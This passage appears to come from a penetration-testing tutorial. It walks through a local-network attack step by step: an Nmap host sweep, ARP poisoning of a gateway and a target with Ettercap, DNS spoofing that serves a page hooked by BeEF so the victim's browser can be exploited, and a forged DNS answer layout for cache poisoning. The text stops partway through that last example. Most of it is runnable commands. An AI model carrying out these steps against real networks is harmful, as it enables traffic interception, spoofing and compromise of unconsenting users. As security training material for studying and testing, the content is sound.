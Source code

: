4. Launch and login to BeEF
5. Open a second terminal and use Nmap to identify other hosts by just using ARP packets by specifying the `-sn` flag 
to disable port scanning and using the `-n` flag to stop IP address resolution: 

```text
# sudo nmap -n -sn <IP address attack host>/24
```

6. With a target host system found (<IP address target>) on the local network, find the gateway address for the local 
network using the `ip route` command:

```text
# ip route
```

7. Establish an ARP poisoning session between the local network gateway (<IP address gateway>) and the target 
(<IP address target>)

```text
# ettercap -M arp:remote -T -q /<IP address gateway>// /<IP address target>//
```

* The `-M` flag sets up for MiTM (on-path), using the remote arp technique. 
* The `-T` argument puts it in text-only mode. 
* The `-q` argument prevents Ettercap from printing the full packet contents, to make the output more readable. 
* The last part is the gateway and target in the format: `MAC address/IPv4 addresses/IPv6 addresses/Ports`. Not using 
the MAC adress, IPv6 adressess or ports explains the blanks and the slash delimiters.

8. Enable the DNS plugin. Type `p` to list the plugins. Choose the `dns-spoof` plugin. When it is active and the 
victim navigates to the web page `http://site.com/index.html`, they will see the spoofed and hooked page. Inside
the terminal with Ettercap, you can see the spoof succeed.
9. To exit Ettercap, press q.
10. In BeEF, see the target machine under the Online Browsers tab. From here, use BeEF to exploit the target further.

## Example: Forging redirection records for poisoning

Redirect the target domain's name server (cache an additional A-record for ns.target.example:

```text
        +---------------------+
        | ANSWER              | (no response)
        +---------------------+
        | AUTHORITY           | adversary.example. 3600 IN NS ns.target.example.
        +---------------------+
        | ADDITIONAL          | ns.target.example. IN A xxx.xxx.xxx.xxx
        +---------------------+
```

Redirect the NS record to another target domain (cache unrelated authority information for target.example's NS-record):
